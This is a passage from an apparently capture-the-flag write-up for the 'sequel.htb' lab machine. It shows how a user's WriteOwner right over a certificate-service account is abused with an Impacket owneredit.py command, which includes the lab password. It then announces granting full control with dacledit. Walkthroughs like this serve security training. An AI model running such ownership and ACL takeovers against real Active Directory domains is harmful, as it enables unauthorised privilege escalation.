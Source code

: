 <figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Ryan has `WriteOwner` rights on `CA_SVC` and `CA_SVC` is a certificate issuer, because is member of `Cert Publishers` Group. So we can set the owner of the `CA_SVC` to be Ryan:

{% hint style="info" %}
**WriteOwner**: Provides the ability to take ownership of an object.

The owner of an object can gain full control rights on the object. The right to assume ownership of the object. The user must be an object trustee.
{% endhint %}

{% code overflow="wrap" %}
```bash
owneredit.py -action write -new-owner 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Let’s grant the user `ryan` <mark style="color:yellow;">**full control**</mark> over the `ca_svc` principal using Impacket’s dacledit tool.
